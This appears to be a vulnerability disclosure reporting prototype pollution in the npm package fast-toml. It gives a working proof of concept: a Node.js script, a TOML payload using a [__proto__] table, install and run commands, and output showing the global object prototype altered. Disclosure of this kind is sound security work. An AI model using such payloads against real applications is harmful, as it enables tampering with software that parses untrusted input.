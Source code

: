 # Description

`fast-toml` is vulnerable to `Prototype Pollution`.

# Proof of Concept

1. Create the following PoC and TOML files:

```
// poc.js
var fs = require('fs')
var TOML = require('fast-toml')
console.log("Before : " + {}.polluted);
var parsed = TOML.parse(fs.readFileSync('./payload.toml'))
console.log("After : " + {}.polluted);

//payload.toml
[__proto__]
polluted = "Yes! Its Polluted"
```


2. Execute the following commands in terminal:

```
npm i fast-toml # Install affected module
node poc.js #  Run the PoC
```

3. Check the Output:
```
Before : undefined
After : Yes! Its Polluted
```
